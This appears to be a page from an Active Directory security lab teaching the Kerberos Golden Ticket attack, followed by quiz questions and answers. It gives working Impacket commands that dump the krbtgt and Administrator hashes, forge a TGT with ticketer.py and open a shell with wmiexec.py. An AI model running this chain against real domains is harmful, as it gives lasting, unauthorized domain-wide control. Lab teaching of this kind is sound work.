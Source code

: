 #Golden Tickets

Goldent Tickets are a persistence attack in AD. They consist of TGTs that are forged by the attacker using the krbtgt's account hash, which is its secret use to create TGTs. If the attacker can retrieve this account's hash, the attacker can therefore forge a Kerberos TGT for any user with arbitrary information. Using this forged ticket, the attacker can then access domain services however he likes.

In order to retrieve the krbtgt's hash value, you'll need admin access to the domain. This can be achieved by performing previous attacks in this lab such as the ACL Abuse attack, the SAMAccountName spoofing attack, the NTLM relay to SMB attack, and more. If for some reason you weren't able to retrieve the administrator's hash values, run the following command, and take note of the hash value.

```
secretsdump.py -just-dc-user 'Administrator' north.altair.local/Administrator:Passw0rd@192.168.122.10 
```

To forge a Golden Ticket:
```
#retrieve the north.altair.local domain's SID
lookupsid.py -no-pass -hashes <admin:hashes> -domain-sids north.altair.local/Administrator@192.168.122.10 0
#get the krbtgt account hash
secretsdump.py -just-dc-user 'krbtgt' north.altair.local/administrator@192.168.122.10 -hashes <admin:hashes>
#example output
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::
#in the command below, you must use the NT hash, which in the example output i gave you, is the second value (640464e963ce78864650de778a6b9c31)
ticketer.py -nthash <krbtgt's NTHash> -domain-sid <domain SID> -domain north.altair.local Administrator
#At this point you've crafted a golden ticket, a TGT referencing the administrator account, which can be used to access any service in the domain as the administrator, for a long period of time
export KRB5CCNAME=/your/dir/Administrator.ccache
#Create a shell session using the forged ticket with administrator permissions
wmiexec.py -k -no-pass north.altair.local/Administrator@captain.north.altair.local
whoami
```

!!! question
    What is a Golden Ticket in Active Directory?
??? success "Answer"
    A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the krbtgt account’s NT hash. With it, an attacker can impersonate any user, including Domain Admins, and access domain resources at will.
!!! question
    Why is the krbtgt account hash required to forge a Golden Ticket?
??? success "Answer"
    The krbtgt account hash is the secret key the KDC uses to sign and validate TGTs. If an attacker has this hash, they can generate valid TGTs that the KDC will accept as legitimate.
!!! question
    How can an attacker retrieve the krbtgt account hash?
??? success "Answer"
    The attacker needs domain admin–level access to dump the krbtgt account credentials. This can be achieved through other attacks such as ACL abuse, SAMAccountName spoofing or NTLM relay to SMB.